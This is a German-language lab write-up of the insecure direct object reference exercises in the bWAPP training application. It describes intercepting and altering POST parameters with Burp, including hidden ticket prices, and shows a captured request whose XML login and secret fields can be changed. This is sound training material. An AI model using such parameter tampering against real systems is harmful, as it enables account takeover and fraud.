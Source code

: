 ### // A4 - INSECURE DIRECT OBJECT REFERENCES //
---
##### Insecure DOR (Change Secret)

Mit burp können versteckte elemente angezeigt werden.<br>
Oder es können die POST Parameter abgefangen werden.

---
##### Insecure DOR (Reset Secret)
Das "Login" und "Secret" feld kann angepasst werden:
~~~
POST /bWAPP/xxe-2.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://localhost:8083/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=2
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
~~~

---
##### Insecure DOR (Order Tickets)
bWAPP/insecure_direct_object_ref_2.php <br>
Mit burp können vesteckte ticketpreise angezeigt werden. 
Oder die POST Paramter während der übetragung über ein Proxy manipulieren.
